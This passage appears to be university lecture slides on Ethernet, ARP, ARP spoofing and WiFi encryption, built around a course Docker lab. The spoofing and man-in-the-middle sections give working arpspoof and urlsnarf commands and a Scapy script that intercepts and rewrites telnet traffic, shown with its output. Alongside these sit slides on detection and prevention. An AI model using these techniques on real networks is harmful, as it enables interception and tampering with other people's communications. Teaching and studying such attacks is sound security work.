

# Contents [Ethernet](#/ethernet) [Network Interfaces](#/nics) [Address Resolution Protocol (ARP)](#/arpdesc) [ARP Spoofing](#/spoofing) [Spoofing Defenses](#/defenses) [MITM with ARP](#/mitmarp) [WiFi security](#/wifi)
# Ethernet
## Protocol stack: data link layer <!-- [](https://commons.wikimedia.org/wiki/File:Ethernet_Connection.jpg) --> <img src="http://www.cs.virginia.edu/~asb2t/duimg/n01/image9.png" style="height:300px"> - Is charged with getting one packet of data from one host to another, connected, host - Via the next layer down (physical) - Most common example is Ethernet - Other examples: ARP, ISDN, PPP, ATM, FDDI, SONET, SDH, etc. <!-- .slide: class="right-float-img-600" --> ## Other protocols [](https://commons.wikimedia.org/wiki/File:Token_ring.svg) - Token ring (IBM, 1984) - Whomever has the token may transmit - If you are done, or have reached your time limit, pass the token on - Pros: no collisions, fast at the time - Cons: slower than later Ethernet, adding a device breaks the ring ## Ethernet - Most common protocol due to high speeds and low cost - Although you may use Ethernet, your data will travel over others to its destination, including fiber optic - Such as [SONET and SDH](https://en.wikipedia.org/wiki/Synchronous_optical_networking) - Ethernet has a 14 byte header and a 4 byte checksum - And up to 1,500 bytes of data - For large packets, 18/1518 bytes = 1.2% is meta-data [](https://commons.wikimedia.org/wiki/File:Ethernet_Type_II_Frame_format.svg) <!-- .slide: style="width:1200px;margin-left:-100px;font-size:smaller" --> ## Speed Comparison | Type | Year | Speed<br>(Mbit/s) | 10 Gb<br>download | Aliases | |----|----|----|---|---| | 10base-2/T | 1983 | 10 | 2h, 13m, 20s | | 100base-T | 1995 | 100 | 13m, 20s | fast Ethernet | | Comcast avg | N/A | 236 ([ref](https://www.cnet.com/home/internet/xfinity-speed-test-results/)) | 5m, 38s | | 1000base-TX | 1999 | 1000 | 1m, 20s | gigabit Ethernet | | 10Gbase-T | 2006 | 10,000 | 8s | 10 gigabit Ethernet | | 40G fiber | 2007 | 40,000 | 2s | | 802.11b wi-fi | 1999 | 11 | 2h, 1m, 12s | Wi-Fi 1 | | 802.11g wi-fi | 2003 | 54 | 24m, 41s | Wi-Fi 3 | | 80211n wi-fi | 2014 | 600 | 2m, 13s | Wi-Fi 4 | | 80211ac wi-fi | 2014 | 6,933 | 11s | Wi-Fi 5 | ## MAC addresses <a href="https://commons.wikimedia.org/wiki/File:EverFocus_Electronics_MAC_address_barcode_stickers_20170320.jpg"><img src="https://upload.wikimedia.org/wikipedia/commons/thumb/1/13/EverFocus_Electronics_MAC_address_barcode_stickers_20170320.jpg/1024px-EverFocus_Electronics_MAC_address_barcode_stickers_20170320.jpg" class="right-float-img-600 no-border" alt="mac addresses"></a> - MAC = media access control - Each physical network card has a unique one - Devices are supposed to be labeled with it - 6 bytes, represented in hex - Source and destination MAC in header: [](https://commons.wikimedia.org/wiki/File:Ethernet_Type_II_Frame_format.svg) ## Ethernet Frame  - From MAC 08:00:27:84:5e:b9 - To MAC 08:00:27:dd:08:88 - EtherType is 08:00 - We'll see this shortly ## MAC address randomization  ## MAC tracking - Businesses can track you in a store(s) via your MAC address - And then associate that with you, such as when you check out - Then they can sell this information - Randomization thus doesn't fully work - When you check out, they still know your (now random) MAC address - And thus where you went in the store or mall ## Ethernet header & checksum [](https://commons.wikimedia.org/wiki/File:Ethernet_Type_II_Frame_format.svg) - EtherType: - 0x0800: for IPv4 packets - 0x0806: for ARP packets (described later) - More [here](https://en.wikipedia.org/wiki/EtherType), but we won't see them - CRC checksum: - CRC-32 hash of header *and* data - Good for detecting transmission mistakes - Not good to check for an attacker ## Early Ethernet <a href="https://commons.wikimedia.org/wiki/File:Bustopologie.png"><img src="https://upload.wikimedia.org/wikipedia/commons/9/9e/Bustopologie.png" class="right-float-img-600" alt="shared medium" style="width:400px"></a> - Ethernet uses a *shared network* - All devices on the network transmit on the same single bus (network) - If two transmit at the same time, it's a *collision* - Each "backs off" at different rates and tries to re-transmit - On a busy network, the large number of collisions can reduce overall speed <!-- .slide: class="right-float-img-600 no-border" --> ## Early Ethernet: Hub [](https://commons.wikimedia.org/wiki/File:4_port_netgear_ethernet_hub.jpg) - A *hub* connects devices on the same shared network - Basically a soldering of the wires together - Creates the topology on the previous slide - Collisions happen quite often - It's actually a *physical* layer device - They haven't been sold since the 1990's <!-- .slide: class="right-float-img-600 no-border" --> ## Modern Ethernet: Switch [](https://commons.wikimedia.org/wiki/File:Netgear_Gigabit_Switch_5-port.jpg) - A *switch* has circuitry inside that only sends messages to the intended recipients - Which could be broadcast - Two pairs of devices communicating will not collide with the other pair - Modern Ethernet uses 8-wire cables - Send and receive on different pairs - So no collisions ## Larger switches <a href="https://commons.wikimedia.org/wiki/File:Brocade_ICX_switches.jpg"><img src="https://upload.wikimedia.org/wikipedia/commons/f/f3/Brocade_ICX_switches.jpg" class="left-float-img-600 no-border" alt="switch" style="width:400px"></a> <a href="https://commons.wikimedia.org/wiki/File:Switch-and-nest.jpg"><img src="https://upload.wikimedia.org/wikipedia/commons/thumb/e/e9/Switch-and-nest.jpg/1024px-Switch-and-nest.jpg" class="right-float-img-600 no-border" alt="switch" style="width:400px"></a> <br clear='all'> - Left: a switch for a larger home network - Right: a (messy) switch for a small business - These days, the difference between a switch and a router (network-level) is basically software <!-- .slide: class="right-float-img-800" --> ## Promiscuous Mode [](https://commons.wikimedia.org/wiki/File:Censored_rubber_stamp.svg) - Normally a NIC only listens for packets destined for it - Or broadcast to all - Setting the NIC to *promiscuous mode* will have it listen for *all* packets - Useful for packet sniffing - The switch may prevent receipt of other NIC's packets, though
# Network Interfaces
## `ifconfig` - Stands for interface config - Linux / OS X program - Windows probably has something simnilar... - `ifconfig` will show the details for all the network interfaces - `ifconfig <dev>` will show the details for just that one interface ## Network Interface Cards (NIC) <a href='https://commons.wikimedia.org/wiki/File:Ethernet_NIC_100Mbit_PCI.jpg'><img src="https://upload.wikimedia.org/wikipedia/commons/thumb/6/60/Ethernet_NIC_100Mbit_PCI.jpg/1024px-Ethernet_NIC_100Mbit_PCI.jpg" style="float:left;height:220px" class="no-border"></a> <a href='https://commons.wikimedia.org/wiki/File:Computer-motherboard.jpg'></a> <br clear='all'> - Early NICs were separate cards - Now they are generally integrated into motherboards <!-- .slide: class="wide-pre" --> ## Network Interface Card (NIC) - The hardware device that reads and writes from/to the network cable - Each one has a hardware (MAC) address ('ether' in the output below) ``` root@inner:/# ifconfig eth0 eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500 inet 192.168.200.3 netmask 255.255.255.0 broadcast 192.168.200.255 ether 02:42:c0:a8:c8:03 txqueuelen 0 (Ethernet) RX packets 12 bytes 1895 (1.8 KB) RX errors 0 dropped 0 overruns 0 frame 0 TX packets 10 bytes 3189 (3.1 KB) TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0 root@inner:/# ``` ## Packet flow  ## Types of NICs  - (a) is a standard NIC, such as eth0 - (b) is the loopback interface, such as lo - (c) creates a dummy tun/tap interface - Tunnel / tap: software can be the other end <!-- .slide: class="wide-pre" --> ## ifconfig ``` root@inner:/# ifconfig eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500 inet 192.168.200.3 netmask 255.255.255.0 broadcast 192.168.200.255 ether 02:42:c0:a8:c8:03 txqueuelen 0 (Ethernet) RX packets 12 bytes 1895 (1.8 KB) RX errors 0 dropped 0 overruns 0 frame 0 TX packets 10 bytes 3189 (3.1 KB) TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0 lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536 inet 127.0.0.1 netmask 255.0.0.0 loop txqueuelen 1000 (Local Loopback) RX packets 0 bytes 0 (0.0 B) RX errors 0 dropped 0 overruns 0 frame 0 TX packets 0 bytes 0 (0.0 B) TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0 root@inner:/# ```
# Address Resolution Protocol (ARP)
## Need for ARP  - A message comes in from the Internet for the TV (192.168.1.102) - The router only knows the devices by their MAC addresses - How does the router know which MAC addr to send it to? - [Reference Wikipedia article](https://en.wikipedia.org/wiki/Address_Resolution_Protocol#ARP_spoofing_and_proxy_ARP) <!-- .slide: class="right-float-img-600" --> ## Address resolution  - The router receives a packet for 192.168.1.102 - It has to determine which device corresponds to that IP address - So it asks: "which one of you devices has address .102?" - The TV responds "I do" - The router now can associate the TV's MAC address with .102 - The data is then sent to the device <!-- .slide: class="wide-pre" --> ## ARP via tcpdump In another window, `ping -c 1 outer1` was executed on outer2; below are the packets sent and received (see [docker network diagram](../docker/network.svg)) ``` root@outer2:/# tcpdump -i eth0 -n tcpdump: verbose output suppressed, use -v[v]... for full protocol decode listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes 21:11:57.120679 ARP, Request who-has 192.168.100.101 tell 192.168.100.102, length 28 21:11:57.120769 ARP, Reply 192.168.100.101 is-at 02:42:c0:a8:64:65, length 28 21:11:57.120772 IP 192.168.100.102 > 192.168.100.101: ICMP echo request, id 285, seq 1, length 64 21:11:57.120873 IP 192.168.100.101 > 192.168.100.102: ICMP echo reply, id 285, seq 1, length 64 ^C 4 packets captured 4 packets received by filter 0 packets dropped by kernel root@outer2:/# ``` <!-- ================================================= --> <table class="transparent"><tr><td> ## Address Resolution Protocol (ARP) - ARP is used to determine this mapping - It's a data link layer protocol - The same packet is set for a query as for a response - Defined by [RFC 826](https://datatracker.ietf.org/doc/html/rfc826) - It's generic for any set of protocols, but we'll focus on Ethernet and IP addresses </td><td> <div class="wikitablediv"> <table class="wikitable"> <caption> Internet Protocol over Ethernet ARP packet </caption> <tbody> <tr> <th colspan="1">Octet offset</th> <th colspan="8" width="50%">0</th> <th colspan="8" width="50%">1</th> </tr> <tr> <th>0</th> <td colspan="16">Hardware type (HTYPE)</td> </tr> <tr> <th>2</th> <td colspan="16">Protocol type (PTYPE)</td> </tr> <tr> <th>4</th> <td colspan="8">Hardware address length (HLEN)</td> <td colspan="8">Protocol address length (PLEN)</td> </tr> <tr> <th>6</th> <td colspan="16">Operation (OPER)</td> </tr> <tr> <th>8</th> <td colspan="16" style="background:#f0fff0">Sender hardware address (SHA) (first 2 bytes)</td> </tr> <tr> <th>10</th> <td colspan="16" style="background:#f0fff0">(next 2 bytes)</td> </tr> <tr> <th>12</th> <td colspan="16" style="background:#f0fff0">(last 2 bytes)</td> </tr> <tr> <th>14</th> <td colspan="16" style="background:#d0ffd0">Sender protocol address (SPA) (first 2 bytes)</td> </tr> <tr> <th>16</th> <td colspan="16" style="background:#d0ffd0">(last 2 bytes)</td> </tr> <tr> <th>18</th> <td colspan="16" style="background:#f0f0ff">Target hardware address (THA) (first 2 bytes)</td> </tr> <tr> <th>20</th> <td colspan="16" style="background:#f0f0ff">(next 2 bytes)</td> </tr> <tr> <th>22</th> <td colspan="16" style="background:#f0f0ff">(last 2 bytes)</td> </tr> <tr> <th>24</th> <td colspan="16" style="background:#d0d0ff">Target protocol address (TPA) (first 2 bytes)</td> </tr> <tr> <th>26</th> <td colspan="16" style="background:#d0d0ff">(last 2 bytes)</td> </tr> </tbody> </table> </div> </td></tr></table> <!-- ================================================= --> <!-- ================================================= --> ## ARP Packet Structure <table class="transparent"><tr><td> - HTYPE: 1 for Ethernet - PTYPE: 0x0800 for IPv4 - HLEN: MAC addr length (6) - PLEN: IP address length (4) - OPER: operation - 1 for request, 2 for reply - SHA: Sender's MAC address - SPA: Sender's IP address - THA: Receiver's MAC address - Ignored in a request, originator's MAC in a reply - TPA: Receiver's IP address </td><td> <div class="wikitablediv"> <table class="wikitable"> <caption> Internet Protocol over Ethernet ARP packet </caption> <tbody> <tr> <th colspan="1">Octet offset</th> <th colspan="8" width="50%">0</th> <th colspan="8" width="50%">1</th> </tr> <tr> <th>0</th> <td colspan="16">Hardware type (HTYPE)</td> </tr> <tr> <th>2</th> <td colspan="16">Protocol type (PTYPE)</td> </tr> <tr> <th>4</th> <td colspan="8">Hardware address length (HLEN)</td> <td colspan="8">Protocol address length (PLEN)</td> </tr> <tr> <th>6</th> <td colspan="16">Operation (OPER)</td> </tr> <tr> <th>8</th> <td colspan="16" style="background:#f0fff0">Sender hardware address (SHA) (first 2 bytes)</td> </tr> <tr> <th>10</th> <td colspan="16" style="background:#f0fff0">(next 2 bytes)</td> </tr> <tr> <th>12</th> <td colspan="16" style="background:#f0fff0">(last 2 bytes)</td> </tr> <tr> <th>14</th> <td colspan="16" style="background:#d0ffd0">Sender protocol address (SPA) (first 2 bytes)</td> </tr> <tr> <th>16</th> <td colspan="16" style="background:#d0ffd0">(last 2 bytes)</td> </tr> <tr> <th>18</th> <td colspan="16" style="background:#f0f0ff">Target hardware address (THA) (first 2 bytes)</td> </tr> <tr> <th>20</th> <td colspan="16" style="background:#f0f0ff">(next 2 bytes)</td> </tr> <tr> <th>22</th> <td colspan="16" style="background:#f0f0ff">(last 2 bytes)</td> </tr> <tr> <th>24</th> <td colspan="16" style="background:#d0d0ff">Target protocol address (TPA) (first 2 bytes)</td> </tr> <tr> <th>26</th> <td colspan="16" style="background:#d0d0ff">(last 2 bytes)</td> </tr> </tbody> </table> </div> </td></tr></table> <!-- ================================================= --> ## ARP normal query & response - The router has IP 192.168.1.1 - In hex: c0 a8 01 01 - It receives a packet for IP 192.168.1.102 - In hex: c0 a8 01 66 - It sends out an ARP query - That computer (.102) sends back a response - That data is wrapped in an Ethernet packet: [](https://commons.wikimedia.org/wiki/File:Ethernet_Type_II_Frame_format.svg) - The query destination address is ff:ff:ff:ff:ff:ff (broadcast to all) - The Ethertype for ARP is 0x0806 <!-- ================================================= --> <h2>ARP normal query & response</h2> <table class="transparent"><tr><td> <div class="wikitablediv"> <table class="wikitable"> <caption> IPv4 via Ethernet ARP query </caption> <tbody> <tr> <th colspan="1">Octet offset</th> <th colspan="8" width="50%">0</th> <th colspan="8" width="50%">1</th> </tr> <tr> <th>0</th> <td colspan="16">HTYPE: 0x0001</td> </tr> <tr> <th>2</th> <td colspan="16">PTYPE: 0x0800</td> </tr> <tr> <th>4</th> <td colspan="8">HLEN: 0x06</td> <td colspan="8">PLEN: 0x04</td> </tr> <tr> <th>6</th> <td colspan="16">OPER: 0x0001</td> </tr> <tr> <th>8</th> <td colspan="16" style="background:#f0fff0">SHA (first 2 bytes): 0x1122</td> </tr> <tr> <th>10</th> <td colspan="16" style="background:#f0fff0">(next 2 bytes): 0x3344</td> </tr> <tr> <th>12</th> <td colspan="16" style="background:#f0fff0">(last 2 bytes): 0x5566</td> </tr> <tr> <th>14</th> <td colspan="16" style="background:#d0ffd0">SPA (first 2 bytes): 0xc0a8</td> </tr> <tr> <th>16</th> <td colspan="16" style="background:#d0ffd0">(last 2 bytes): 0x0101</td> </tr> <tr> <th>18</th> <td colspan="16" style="background:#f0f0ff">THA (first 2 bytes): 0x0000</td> </tr> <tr> <th>20</th> <td colspan="16" style="background:#f0f0ff">(next 2 bytes): 0x0000</td> </tr> <tr> <th>22</th> <td colspan="16" style="background:#f0f0ff">(last 2 bytes): 0x0000</td> </tr> <tr> <th>24</th> <td colspan="16" style="background:#d0d0ff">TPA (first 2 bytes): 0xc0a8</td> </tr> <tr> <th>26</th> <td colspan="16" style="background:#d0d0ff">(last 2 bytes): 0x0166</td> </tr> </tbody> </table> </div> </td><td> <div class="wikitablediv"> <table class="wikitable"> <caption> IPv4 via Ethernet ARP response </caption> <tbody> <tr> <th colspan="1">Octet offset</th> <th colspan="8" width="50%">0</th> <th colspan="8" width="50%">1</th> </tr> <tr> <th>0</th> <td colspan="16">HTYPE: 0x0001</td> </tr> <tr> <th>2</th> <td colspan="16">PTYPE: 0x0800</td> </tr> <tr> <th>4</th> <td colspan="8">HLEN: 0x06</td> <td colspan="8">PLEN: 0x04</td> </tr> <tr> <th>6</th> <td colspan="16" style="color:red">OPER: 0x0002</td> </tr> <tr> <th>8</th> <td colspan="16" style="background:#f0fff0;color:red">SHA (first 2 bytes): 0x7788</td> </tr> <tr> <th>10</th> <td colspan="16" style="background:#f0fff0;color:red">(next 2 bytes): 0x99aa</td> </tr> <tr> <th>12</th> <td colspan="16" style="background:#f0fff0;color:red">(last 2 bytes): 0xbbcc</td> </tr> <tr> <th>14</th> <td colspan="16" style="background:#d0ffd0">SPA (first 2 bytes): 0xc0a8</td> </tr> <tr> <th>16</th> <td colspan="16" style="background:#d0ffd0;color:red">(last 2 bytes): 0x0166</td> </tr> <tr> <th>18</th> <td colspan="16" style="background:#f0f0ff;color:red">THA (first 2 bytes): 0x1122</td> </tr> <tr> <th>20</th> <td colspan="16" style="background:#f0f0ff;color:red">(next 2 bytes): 0x3344</td> </tr> <tr> <th>22</th> <td colspan="16" style="background:#f0f0ff;color:red">(last 2 bytes): 0x5566</td> </tr> <tr> <th>24</th> <td colspan="16" style="background:#d0d0ff">TPA (first 2 bytes): 0xc0a8</td> </tr> <tr> <th>26</th> <td colspan="16" style="background:#d0d0ff;color:red">(last 2 bytes): 0x0101</td> </tr> </tbody> </table> </div> </td></tr></table> <!-- ================================================= --> <!-- .slide: class="right-float-img-600" --> ## ARP table updates  - When a device (the router) receives an ARP response (from the TV), it updates a mapping table - IP address to MAC address - 192.168.1.102 -> 77:88:99:aa:bb:cc - Devices will also update the table when a query is sent - The TV updates the router's table entry - 192.168.1.1 -> 11:22:33:44:55:66 - This query is broadcast (sent to all devices) - Which means *all* devices on the LAN will update that entry ## ARP announcements - Any device an "announce" their IP -> MAC mapping - Send a query, with that devices IP & MAC - Set TPA (IP being queried) to SPA (sender's IP) - Thus no other device will respond - Also set THA (target hardware address) to 0 - As this is a query, other devices will update their tables - This is called a gratuitous ARP (GARP) or ARP announcement - May OSes do this upon boot <!-- ================================================= --> <h2>ARP announcement packet</h2> <table class="transparent"><tr><td> <div class="wikitablediv"> <table class="wikitable"> <caption> IPv4 via Ethernet ARP announcement </caption> <tbody> <tr> <th colspan="1">Octet offset</th> <th colspan="8" width="50%">0</th> <th colspan="8" width="50%">1</th> </tr> <tr> <th>0</th> <td colspan="16">HTYPE: 0x0001</td> </tr> <tr> <th>2</th> <td colspan="16">PTYPE: 0x0800</td> </tr> <tr> <th>4</th> <td colspan="8">HLEN: 0x06</td> <td colspan="8">PLEN: 0x04</td> </tr> <tr> <th>6</th> <td colspan="16">OPER: 0x0001</td> </tr> <tr> <th>8</th> <td colspan="16" style="background:#f0fff0">SHA (first 2 bytes): source's MAC</td> </tr> <tr> <th>10</th> <td colspan="16" style="background:#f0fff0">(next 2 bytes): source's MAC</td> </tr> <tr> <th>12</th> <td colspan="16" style="background:#f0fff0">(last 2 bytes): source's MAC</td> </tr> <tr> <th>14</th> <td colspan="16" style="background:#d0ffd0">SPA (first 2 bytes): source's IP</td> </tr> <tr> <th>16</th> <td colspan="16" style="background:#d0ffd0">(last 2 bytes): source's IP</td> </tr> <tr> <th>18</th> <td colspan="16" style="background:#f0f0ff">THA (first 2 bytes): 0x0000</td> </tr> <tr> <th>20</th> <td colspan="16" style="background:#f0f0ff">(next 2 bytes): 0x0000</td> </tr> <tr> <th>22</th> <td colspan="16" style="background:#f0f0ff">(last 2 bytes): 0x0000</td> </tr> <tr> <th>24</th> <td colspan="16" style="background:#d0d0ff">TPA (first 2 bytes): source's IP</td> </tr> <tr> <th>26</th> <td colspan="16" style="background:#d0d0ff">(last 2 bytes): source's IP</td> </tr> </tbody> </table> </div> </td></tr></table> <!-- ================================================= --> <!-- .slide: class="right-float-img-600" --> ## ARP security  - When the ARP query goes out asking who is 192.168.14.102... - What prevents the desktop (.101) from responding that *it* is the target? - Nothing, and therein lies the security vulnerability
# ARP Spoofing
<!-- .slide: class="right-float-img-1200" --> ## ARP spoofing - ARP spoofing is when one device pretends to be the MAC address of another device - [Reference Wikipedia article](https://en.wikipedia.org/wiki/ARP_spoofing) <!-- .slide: class="right-float-img-600" --> ## ARP spoofing [](https://commons.wikimedia.org/wiki/File:ARP_Spoofing.svg) - The malicious (red) node sent out an announcement that it was .102 - Now the gateway sends all data for .102 to the MAC of .101 - The malicious device has the network card listen for *multiple* MAC addresses - .101 then forwards the packets onto device .102 - After recording or analyzing them - Device .102 has no idea its data is being intercepted <!-- .slide: class="right-float-img-600" --> ## ARP spoofing [](https://commons.wikimedia.org/wiki/File:ARP_Spoofing.svg) - This requires *two* spoofs - The malicious machine (.101) has to tell the gateway (.1) that it is the target (.102) - The malicious machine (.101) *also* has to tell the target (.102) that it is the gateway (.1) - This is another form of MITM (Man (Perosn) in the Middle) attack ## How to do it - First, install both `netdiscover` and `arpspoof` - In the `netdiscover` and `dsniff` packages on Ubuntu - And already installed on the Docker image - How to use `arpspoof`: - Format is: <pre><code>arpspoof -i (interface) -t (target_ip) (recip_ip)</code></pre> "target" is who to impersonate, "recip" is who to tell - Example: <pre><code>arpspoof -i eth0 -t 192.168.100.1 192.168.100.102</code></pre> - These directions are for our [course docker setup](...) ## Ensure outer1 can forward IP - Check if outer1, the node that is doing the spoofing, can forward IP packets: ``` $ cat /proc/sys/net/ipv4/ip_forward 1 $ ``` - If not, enable outer1 to forward IP packets: ``` echo 1 > /proc/sys/net/ipv4/ip_forward ``` - To start, load up five different tabs (yes, really five) ## How to do it <img src='../docker/network_compact_for_arp_normal_outer2.svg' style="float:left;width:45%"> <img src='../docker/network_compact_for_arp_spoofed_outer2.svg' style="float:right;width:45%"> - The following directions are for our [course docker setup](../docker/network.svg) - We are going to have *outer1* spoof (intercept the packets for) *outer2* - We will run `urlsnarf` on *outer1* - This will display URLs it sees in the intercepted packets
## How to do it - Tab 1: run the docker setup: <pre><code>docker-compose up</code></pre> - Tab 2: connect to *outer1* and run (note `eth1`): <pre><code>arpspoof -i eth1 -t 192.168.100.102 192.168.100.1</code></pre> - Tab 3: connect to *outer1* and run (note reversed): <pre><code>arpspoof -i eth1 -t 192.168.100.1 192.168.100.102</code></pre> - Tab 4: connect to *outer1* and run: <pre><code>urlsnarf -i eth1</code></pre> - Tab 5: wait a minute, then connect to *outer2* and run: <pre><code>wget -q http://google.com</code></pre>
## How to do it - When running `wget` from outer2, any `http://` address will appear in the `urlsnarf` output - There is often a few seconds of delay ``` root@outer1:/# urlsnarf -i eth1 urlsnarf: listening on eth1 [tcp port 80 or port 8080 or port 3128] outer2 - - [23/Jan/2024:12:10:56 -0500] "GET http://google.com/ HTTP/1.1" - - "-" "Wget/1.21.2" outer2 - - [23/Jan/2024:12:10:56 -0500] "GET http://www.google.com/ HTTP/1.1" - - "-" "Wget/1.21.2" ``` - But notice that an `https://` address will *not* appear - As the URL request is sent in an AES-encrypted packet, so `urlsnarf` cannot read it
# Detection and Prevention
## Basic detection idea - Have a map of IP addresses to MAC addresses - Build this mapping over time as ARP packets traverse the network - If a packet comes in that maps an IP to a *different* MAC - Then raise an alert - We can't have a mapping from MACs to IPs - As there are legitimate reasons for this to actually occur: one host has multiple IP addresses ## Detection problem 1 - When the detector program starts up, how do we know that the first ARP packet received for an IP -> MAC mapping is a legitimate one or a spoof? - Solution: have a hard-coded mapping of the correct IP -> MAC mapping ahead of time ## Detection problem 2 - On a switched hub (which is all of them nowadays), a device will only see an ARP packet for itself, and not others - Solution: smart switches can monitor this - These tend to be enterprise-level switches, not home switches ## Prevention - If the gateway has hard-coded IPs for MACs, then it can't be fooled by an ARP spoof - Usually in the DHCP server settings in the gateway setup ## Upcoming assignment - In the ARP Spoofing assignment, you will have to write a detector that will notify (print) if an ARP spoof is detected
# MITM with ARP
<!-- .slide: class="right-float-img-600" --> ## MITM with ARP  - We are going to change all instances of 'foo' to 'bar' - We'll use unencrypted telnet, and change text in the response (only) - We will spoof *metasploit*, as it has a running telnet server - We'll telnet in from *firewall* - The packet interception program will be running on *outer1* ## Setup - As we want to intercept and modify the packets, we have to turn off IP forwarding: <pre><code>echo 0 > /proc/sys/net/ipv4/ip_forward</code></pre> - Otherwise, the packets get forwarded before we can intercept them - Run the `arpspoof` in two tabs on *outer1*: <pre><code>arpspoof -i eth1 -t 192.168.100.3 192.168.100.1</code></pre> <pre><code>arpspoof -i eth1 -t 192.168.100.1 192.168.100.3</code></pre> - Same commands as before, but we are spoofing *metasploit* (.3) instead of *outer2* (.102) ## Scapy Python library - Home page at [scapy.net](https://scapy.net) - A "powerful Python-based interactive packet manipulation program and library" <pre><code class='python'>from scapy.all import *</code></pre> - Uses `/` for layer stacking: <pre><code class='python'>frame = Ether() / IP()</code></pre> - Already installed on the Docker images <!-- .slide: class="smaller-pre" --> ## [arp_mitm.py](code/arp_mitm.py.html) ([src](arp_mitm.py)) ```python def spoof_pkt(pkt): if pkt[IP].src == VICTIM_IP and pkt[IP].dst == FIREWALL_IP: newpkt = IP(bytes(pkt[IP])) del(newpkt.chksum) del(newpkt[TCP].payload) del(newpkt[TCP].chksum) if pkt[TCP].payload: data = pkt[TCP].payload.load newdata = data.replace(b'foo',b'bar') if newdata != data: print("replaced") send(newpkt/newdata) else: send(newpkt) elif pkt[IP].src == FIREWALL_IP or pkt[IP].dst == VICTIM_IP: newpkt = IP(bytes(pkt[IP])) del(newpkt.chksum) del(newpkt[TCP].chksum) send(newpkt) filter = "tcp and (ether src " + FIREWALL_MAC + " or ether src " + VICTIM_MAC + ")" pkt = sniff(iface='eth1', filter=filter, prn=spoof_pkt) ``` ## Final setup - Run [arp_mitm.py](code/arp_mitm.py.html) ([src](arp_mitm.py)) on *outer1* - Note there are more comments in the linked version of the code <!-- .slide: class="small-pre wide-pre" --> ## The effect ``` root@firewall:/# telnet metasploit Trying 192.168.100.3... Connected to metasploit. Escape character is '^]'. ... metasploit login: msfadmin Password: Last login: Tue Jan 23 12:56:08 EST 2024 from firewall on pts/1 Linux 32554753bfe5 4.13.0-21-generic #24-Ubuntu SMP Mon Dec 18 17:29:16 UTC 2017 x86_64 ... No mail. msfadmin@metasploit:~$ echo foo bar msfadmin@metasploit:~$ echo "A fool Footman's foot needs footwear to get a foothold." A barl Footman's bart needs bartwear to get a barthold. msfadmin@metasploit:~$ exit logout Connection closed by foreign host. root@firewall:/# ``` ## Output on `outer1` ``` root@outer1:/# python3 /mnt/arp_mitm.py . Sent 1 packets. . Sent 1 packets. ... Sent 1 packets. . Sent 1 packets. replaced . Sent 1 packets. . (and so on) ```
# WiFi Security
<!-- .slide: class="right-float-img-600" --> ## Wi-Fi encryption  - This encrypts all data sent over a wireless network - This encryption is done at the network or data-link level - Application-level encryption (https, ssh, imaps, etc.) is on top of Wi-Fi encryption - There are two primary types - Wired Equivalent Privacy (WEP) - Wi-Fi Protected Access (WPA, WPA2, and WP3) - OWE (Opportunistic Wireless Encryption) is a recent addition <!-- .slide: class="no-border" --> <h2 class="r-fit-text">US Gov't Encryption restrictions</h2> <a href='https://commons.wikimedia.org/wiki/File:Munitions_T-shirt_(front).jpg'><img src='https://upload.wikimedia.org/wikipedia/commons/9/96/Munitions_T-shirt_%28front%29.jpg' style="float:left;height:350px"></a> <a href='https://commons.wikimedia.org/wiki/File:Netscape_Navigator_1.1_for_Macintosh_Install_Disk.jpg'><img src='https://upload.wikimedia.org/wikipedia/commons/e/e0/Netscape_Navigator_1.1_for_Macintosh_Install_Disk.jpg' style="float:right;height:350px"></a> <br clear='all'> - After WW2, the US Gov't classified encryption technology as a "war munition" - These export restrictions gradually fell away during the 1990's and 2000's - [Wikipedia article](https://en.wikipedia.org/wiki/Export_of_cryptography_from_the_United_States) <!-- .slide: class="right-float-img-800" --> <h2 class="r-fit-text">Wired Equivalent Privacy (WEP) (1997)</h2> <a href='https://commons.wikimedia.org/wiki/File:Wep-crypt-alt.svg'><img src='https://upload.wikimedia.org/wikipedia/commons/4/44/Wep-crypt-alt.svg' style='width:400px'></a> - Created in 1997 to provide confidentiality comparable to that of a traditional wired network - Security weaknesses were identified in 2001 - In 2003, WEP was replaced by WPA (and, later, WPA2) - 64 bit key: 40 bit key plus 24 bits of an Initialization Vector (IV) - Usually entered as 8 ASCII (!) characters ## Encryption without IVs - The same key is used to encrypt each packet - Not what is used in WEP <a href='https://commons.wikimedia.org/wiki/File:ECB_encryption.svg'><img src='https://upload.wikimedia.org/wikipedia/commons/d/d6/ECB_encryption.svg' style="width:800px"></a> ## Encryption with IVs - Each previous block is used as the IV of the next block - What is used in WEP <a href='https://commons.wikimedia.org/wiki/File:CBC_encryption_less_blocks.svg'><img src='https://upload.wikimedia.org/wikipedia/commons/8/8c/CBC_encryption_less_blocks.svg' style='width:800px'></a> - One of the variants of AES used in TLS (aka https://) is AES-CBC ## WEP weaknesses - IV transmitted as plaintext - Initial versions used 64 bit keys - Due to US gov't export restrictions - Later versions used 128 bit keys - The stream cipher used (RC4) is secure - But a 24 bit IV has only $2^{24} \approx 16$ million possibilities - Because of the way the IVs are used, there is a 50% chance of a key being repeated in a minute on a busy network - Repeated packets can be used to crack the IV and key - Weaknesses identified in 2001, replaced by WPA in 2003 - Uses CRC as the checksum <h2 class="r-fit-text">Wi-Fi Protected Access (WPA) (2003)</h2> - Improvements of WEP: - Used a better hash: TKIP (Temporal Key Integrity Protocol) instead of CRC - Used bigger keys: 64-bit or 128-bit - Typically 13 characters - IVs were the 64-bits or 128-bits in size - Sequence numbers prevent replay attacks - Designed to work on the existing WEP-capable wifi devices - IEEE standard 802.11 - A bit of a quick kludge to fix the (broken) WEP ## WPA weaknesses - Password cracking due to weak passwords - Look-up tables exist for a million different WPA/WPA2 passwords - Brute force attacks can crack moderate passwords - A truly random password of 13 